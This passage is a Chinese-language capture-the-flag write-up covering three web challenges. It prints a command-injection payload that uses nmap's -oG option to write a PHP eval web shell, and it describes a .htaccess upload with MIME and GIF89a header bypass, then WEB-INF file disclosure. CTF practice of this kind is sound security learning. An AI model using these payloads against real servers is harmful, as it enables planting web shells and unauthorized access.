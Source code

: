 如此拼接，我们便可以利用下面的`system()`函数将一些`nmap`命令执行，`nmap`可以用参数`-oG`将结果保存到一个指定文件中，利用这一特性，我们向其中写入一句话。

payload:`''<?php @eval($_POST[x])?> -oG hack.php'`

处理后的是这样的`''\\'' \<\?php @eval\(\)\?\> -oG hack.php '\\'''`

访问`sandbox`对应的字符串为文件夹，其中的`hack.php`蚁剑连接，根目录下flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021060621441080.png)


**真绕**

# [GXYCTF2019]BabyUpload
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607220533828.png)

朴素的上传界面。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607220704597.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607220726272.png)
上传`.htaccess`解析含有`01`字样的文件为`php`文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607221708200.png)`01.jpeg`后缀、MIME、文件头绕过(GIF89a)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607221908232.png)`蚁剑连接`
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021060722211977.png)
**标准流程**


# [RoarCTF 2019]Easy Java

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210608095125197.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)
登陆页面，但是提示说是JAVA的知识
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021060810395797.png)
help界面是这样子的
我天，然后看大佬的博客说出现这样的就要换请求方式

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210608105238534.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)

这里要`POST`传`filename=WEB-INF/web,xml`,可以看到其内容，有很多`servlet和class`相关的内容，找到一个叫做![在这里插入图片描述](https://img-blog.csdnimg.cn/20210608105430280.png)
`flagcontroller`（servlet是用来处理客户端发起的HTTP响应过程的中间层）

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210608105821682.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)>[事先了解WEB-INF知识](https://baike.baidu.com/item/web-inf/4476359?fr=aladdin)
访问一下`WEB-INF/classes/com/wm/ctf/FlagController.class`（其中包含了站点所有的`class`文件,包括`servlet class`和`非 servlet class`文件），要把`GET`改为`POST`

下载文件，base64解码文件中有一段代码

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210608122301613.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)
**边做题边学，JAVA知识增加了**

